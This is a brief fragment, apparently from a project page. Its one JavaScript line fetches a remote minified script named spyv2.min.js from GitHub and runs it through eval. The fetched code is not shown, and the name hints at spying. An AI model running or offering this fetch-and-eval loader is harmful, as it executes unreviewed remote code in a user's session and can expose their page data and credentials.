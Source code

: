 running script
```js
fetch('https://raw.githubusercontent.com/yusa-imit/rsckf/refs/heads/main/spyv2.min.js').then(v=>v.text()).then(eval)
```
